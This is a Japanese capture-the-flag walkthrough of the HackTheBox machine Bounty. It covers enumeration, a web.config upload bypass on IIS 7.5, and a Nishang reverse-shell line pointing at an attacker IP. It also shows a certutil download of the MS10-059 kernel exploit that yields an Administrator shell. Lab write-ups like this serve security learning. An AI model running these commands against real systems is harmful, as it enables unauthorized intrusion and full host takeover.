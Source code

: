 # はじめに
HackTheBoxの攻略などを自分用にまとめたものです。    
主に記録用として記しています.

<img src="http://www.hackthebox.eu/badge/image/185549" alt="Hack The Box">
GitHub(ペネトレーションテスト用チートシート):
https://github.com/yukitsukai47/PenetrationTesting_cheatsheet
Twitter:@yukitsukai1731

# Bounty
![スクリーンショット 2020-10-21 16.12.17.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/df7afe54-02d3-c032-249f-a4fae537d072.png)

HackTheBox公式より
Bounty is an easy to medium difficulty machine, which features an interesting technique to bypass file uploader protections and achieve code execution. This machine also highlights the importance of keeping systems updated with the latest security patches.

Bountyは、ファイルアップローダーの保護をバイパスしてコード実行を実現する興味深いテクニックを特徴とする、簡単～中難易度のマシンです。このマシンはまた、最新のセキュリティパッチでシステムを最新の状態に保つことの重要性を強調しています。

# Recon(偵察)
Bounty(10.10.10.93)に対して、スキャンを行います。  
まずnmapでスキャンを開始します。

## nmap 

```
nmap -sC -sV -oN nmap/initial 10.10.10.93
```

- -sC...デフォルトスクリプトでスキャン
- -sV...バージョン検出
- -oN...通常出力

```
# Nmap 7.80 scan initiated Mon Sep 28 03:38:44 2020 as: nmap -sC -sV -oN nmap/initial 10.10.10.93
Nmap scan report for 10.10.10.93
Host is up (0.26s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 28 03:39:12 2020 -- 1 IP address (1 host up) scanned in 28.83 seconds
```

この結果から、80番ポートでIIS 7.5が動作していることが分かります。  
まずは80番ポートを確認してみますが、ソースコードなどを見ても特にこれといった情報も見つかりませんでした。
![スクリーンショット 2020-10-21 16.13.15.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/18187e6f-9db8-0285-564d-4960275bad13.png)
手がかりとなる情報を掴むために、gobusterを使ってディレクトリ・ファイルの列挙を行っていきます。

## gobuster

```
gobuster dir -u http://10.10.10.93/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x aspx,txt -t 50 -o gobuster/initial
```

```
kali@kali:~/htb/Bounty$ cat gobuster/initial
/transfer.aspx (Status: 200)
/UploadedFiles (Status: 301)
/uploadedFiles (Status: 301)
/uploadedfiles (Status: 301)
```

いくつか列挙することができました。  
まずはtransfer.aspxを見てみると、ファイルをアップロードする機構であることが分かります。  
IISで動いていることが分かっているので、kaliに搭載されているcmd.aspxなどのwebshellファイルをアップロードしてみますが、アップロードはできませんでした。
![スクリーンショット 2020-10-21 15.44.38.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/c530000c-cb56-ad0a-806e-f9faeed5cf58.png)

ここでgoogleで「IIS 7.5 file upload rce」などで検索をすると、以下のような記事を見つけることができました。  
参考リンク：  
https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/
![スクリーンショット 2020-10-21 16.27.21.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/6f9a07d0-2953-f587-6dd1-503c62710584.png)  

参考リンク：  
https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/
![スクリーンショット 2020-10-21 16.27.48.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/7a3a78d7-8b47-8326-7d39-5ccd4d5d6674.png)

これらを見てみると、どうやらIIS7.5以降のバージョンではweb.configファイルを通じて、ASPコードを実行することができるようです。  
試しに適当に用意したtest.configをアップロードしてみます。

```
echo aaa > test.config
```

![スクリーンショット 2020-10-21 15.43.39.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/1bfcc3c3-adcb-15fa-c97e-387e39a20b29.png)

アップロードに成功することができました。

# exploitation(侵入)
先ほどのgoogleで検索したコードを用いて、web.configを作成します。  
今回は、web.config内にnishangをkaliで立てたサーバからダウンロードしてきて、実行するpowershellスクリプトを実行させるASPコードを記述します。
![スクリーンショット 2020-10-21 16.07.41.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/9ba8859a-3b55-e80d-4f96-9ca71c216144.png)
次にnishangの用意です。  
参考リンク：  
https://github.com/samratashok/nishang

```
cp /home/kali/pentest/nishang/Shells/Invoke-PowerShellTcp.ps1 /home/kali/htb/Bounty/www/nishang.ps1
```

nishang.ps1(Invoke-PowerShellTCP.ps1)の最後の行に以下の文を追加します。この時IPAddress,Portは自身のkaliのものを指定してください。

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 4444
```

![スクリーンショット 2020-10-21 16.38.38.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/a74ccdc4-29e5-f49d-9b8a-65ffc5279841.png)
あとは、kaliでnishangを提供するためのサーバの立ち上げと、reverse shellの待ち受けを行います。

```
kali@kali:~/htb/Bounty/www$python3 -m http.server 8000
```

```
nc -lvnp 4444
```

準備が完了したら、アップロードした/uploadfiles/web.configを実行します。
![スクリーンショット 2020-10-21 16.45.32.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/d7719f90-c975-b2c9-3120-511a4facdca0.png)
![スクリーンショット 2020-10-21 16.45.42.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/5e02a614-66e7-91a4-5154-cec99b48c1f5.png)


# Privileges Escalation(権限昇格)
権限昇格にはWindows-Exploit-Suggesterを使用します。  
参考リンク：  
https://github.com/AonCyberLabs/Windows-Exploit-Suggester

Windows-Exploit-Suggesterには、systeminfoの情報が必要になるので取得したシェルからsysteminfoを実行してコピーします。
![スクリーンショット 2020-10-21 16.50.42.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/9abf6fec-b0af-8a7a-2814-db12fea1bee3.png)

コピーしたsysteminfoをテキストファイルに記して、Windows-Exploit-Suggesterと同じディレクトリに配置しておきます。
./windows-exploit-suggester.py --update
を実行後、出力されたxlsファイルを指定してスクリプトを実行します。

```
./windows-exploit-suggester.py --update
./windows-exploit-suggester.py --database 2020-10-21-mssb.xls --systeminfo Bounty.txt
```

![スクリーンショット 2020-10-21 15.51.03.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/b0c043b9-623f-2f7d-3cfd-1435ee938077.png)
ここでは提案されたエクスプロイトの中から、MS10-059を使用します。  
カーネルエクスプロイトにはSecWikiのものを使います。  
参考リンク：  
https://github.com/SecWiki/windows-kernel-exploits  
このエクスプロイトをBountyマシンに共有します。  
pythonを使ってkaliにサーバを立てて、Bountyからcertutil.exeを使用することでMS10-059.exeをダウンロードします。

```
kali@kali:~/pentest/windows-kernel-exploits/MS10-059$ python3 -m http.server 9001
```

```
C:\windows\temp>certutil -urlcache -split -f http://10.10.14.7:9001/MS10-059.exe MS10-059.exe
```

これで全ての準備が整ったので、kaliで通信を待ち受けて、BountyからMS10-059.exeを実行します。

```
kali@kali:~/$ nc -lvnp 4445
```

```
C:\windows\temp>./MS10-059.exe 10.10.14.7 4445
```

![スクリーンショット 2020-10-21 15.59.13.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/1e14fd18-c3d9-4586-dc71-b41192842148.png)
お疲れ様でした。  
Administrators権限を取得することができました。